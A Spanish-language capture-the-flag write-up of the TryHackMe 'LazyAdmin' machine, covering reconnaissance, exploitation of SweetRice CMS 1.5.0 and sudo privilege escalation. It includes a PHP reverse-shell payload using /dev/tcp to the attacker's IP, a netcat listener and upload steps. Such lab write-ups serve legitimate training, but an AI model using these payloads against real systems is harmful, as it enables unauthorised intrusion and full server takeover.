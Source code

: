 ```yaml
---
title: LazyAdmin
date: 2024-09-22
categories: [WRITEUPS, PREPARING EJPTv2]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


---

![picture](/assets/images/ejptv2/lazy1.png)

---

En la máquina **LazyAdmin** de **TryHackMe**, gracias a una versión anticuada de un gestor de contenido, obtengo el archivo de *Backup* de una *BBDD*, en la que encuentro credenciales para acceder al gestor, una vez dentro, gracias a un **Arbitrary File Upload**, obtengo acceso al servidor, y escalo privilegios gracias a los permisos de **Sudo** sobre un script.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Primero realizaré un *PING* para probar si tengo conectividad con la máquina.

```bash
ping -c 1 10.10.192.27
```

Tengo conectividad, y además compruebo que estoy ante una máquina **Linux** gracias al *TTL*.

![picture](/assets/images/ejptv2/lazy2.png)

A continuación, realizaré un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.192.27 -n -Pn
```

![picture](/assets/images/ejptv2/lazy3.png){: w="600" h="300" }

Voy a comprobar el contenido corriendo por el puerto **80 - HTTP**.

Encuentro una página por defecto de **Apache2**.

![picture](/assets/images/ejptv2/lazy4.png)

Al no encontrar nada interesante en el código fuente de la página, voy a realizar **Fuzzing** para intentar encontrar mediante fuerza bruta rutas o archivos que no pueda ver.

(*redirijo el **Stderr** al **/dev/null** porque me dan muchos errores*)

```bash
gobuster dir -u http://10.10.192.27/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403 -x .txt,.php,.md -t 200 2>/dev/null
```

Encuentro una ruta "**/content**".

![picture](/assets/images/ejptv2/lazy5.png)

Dentro de la ruta, encuentro el gestor **CMS** corriendo por el servicio.

![picture](/assets/images/ejptv2/lazy6.png)

Voy a volver a realizar **Fuzzing** sobre esta ruta.

```bash
gobuster dir -u http://10.10.192.27/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403 -x .txt,.php,.md -t 200 2>/dev/null
```

Encuentro los siguientes archivos, y rutas.

![picture](/assets/images/ejptv2/lazy7.png)

En el archivo de "**changelog.txt**", encuentro la versión del gestor de contenido (*CMS*) corriendo, **SweetRice - 1.5.0**. 

![picture](/assets/images/ejptv2/lazy8.png)

En la ruta "**/as**", el panel de *Login* del gestor de contenidos.

![picture](/assets/images/ejptv2/lazy9.png)

---

## **Explotación**

Buscando por internet, encuentro en la siguiente [**Web**](https://www.exploit-db.com/exploits/40718), que para las versiones "**<=1.5.1**", podemos descargarnos el archivo de *backup* de la base de datos **Mysql**.

![picture](/assets/images/ejptv2/lazy10.png)

Voy a la ruta, y lo descargo.

![picture](/assets/images/ejptv2/lazy11.png){: w="600" h="300" }

Mirando el archivo, encuentro unas credenciales.

![picture](/assets/images/ejptv2/lazy12.png)

La contraseña parece ser un **Hash**, me voy a la Web de [Crackstation](https://crackstation.net/) para intentar crackearlo, y obtengo la contraseña en texto claro.

![picture](/assets/images/ejptv2/lazy13.png)

Intentando entrar en el panel de *login* encontrado en la ruta "**/as**", obtengo resultado, y estoy dentro del gestor **CMS** como usuario administrador.

![picture](/assets/images/ejptv2/lazy14.png)

Volviendo a buscar en Internet, encuentro una vulnerabilidad **Arbitrary File Upload** para este gestor, podemos subir un archivo **ZIP** con código **PHP** en la pestaña de "*Media Center*, y vamos a poder ejecutarlo.

[**Enlace a la vulnerabilidad**](https://www.exploit-db.com/exploits/40716).

Creamos un archivo **PHP**, con el código necesario para que nos devuelva una **Reverse Shell**.

- Código

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra Ip'/4444 0>&1'");
?>
```

Y el archivo lo comprimimos.

![picture](/assets/images/ejptv2/lazy15.png)

A continuación, subimos el archivo comprimido, y marcamos la opción para que nos extraiga el archivo.

![picture](/assets/images/ejptv2/lazy16.png)

Lo subimos, y nos va a aparecer con otro nombre.

![picture](/assets/images/ejptv2/lazy17.png)

Nos vamos a la ruta donde se encuentra el archivo subido, y vemos que lo tenemos ahí.

![picture](/assets/images/ejptv2/lazy18.png){: w="600" h="300" }

Antes de ejecutarlo, tendremos que crear un **Listener** en nuestra máquina local para poder recibir la **Shell** interactiva.

- Listener

```bash
nc -lnvp 4444
```

Y una vez estemos escuchando por el puerto indicado en el archivo subido, clicamos en el archivo y obtendremos una **Shell** en nuestra máquina local dentro del servidor.

![picture](/assets/images/ejptv2/lazy19.png)

A continuación, realizo un tratamiento de la **TTY** para mejorar la interacción con la terminal.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

Encuentro un directorio en "**/home**" llamado "**itguy**", en el cual tenemos permisos de lectura, escritura y ejecución, y dentro del directorio encuentro la primera **flag** de usuario.

![picture](/assets/images/ejptv2/lazy20.png)

En el archivo "**mysql_login.txt**", encuentro unas credenciales de la base de datos **Mysql**, pero dentro de la *BBDD*, no encuentro nada interesante.

---

## **Escalada de privilegios**

Mirando los permisos de **SUDO** del usuario **www-data**, veo que no necesita usar contraseña para ejecutar mediante **PERL** el script "**backup.pl**".

![picture](/assets/images/ejptv2/lazy21.png)

Viendo el contenido del script, veo que ejecuta otro script, ubicado en "**/etc/copy.sh**".

![picture](/assets/images/ejptv2/lazy22.png)


Y viendo el contenido del script "**copy.sh**", veo que ejecuta una **Reverse Shell**.

![picture](/assets/images/ejptv2/lazy23.png)

Viendo los permisos del script, veo que puedo modificarlo, así que en vez de ejecutar la **Reverse Shell**, sobrescribiré "**/bin/bash**" para que ejecute una bash como **root**.

![picture](/assets/images/ejptv2/lazy24.png)


Y a continuación, ejecuto el script como **SUDO**, obtengo una *bash* como el usuario **root**, y en su directorio personal encuentro la **flag** de **root**.

![picture](/assets/images/ejptv2/lazy25.png)

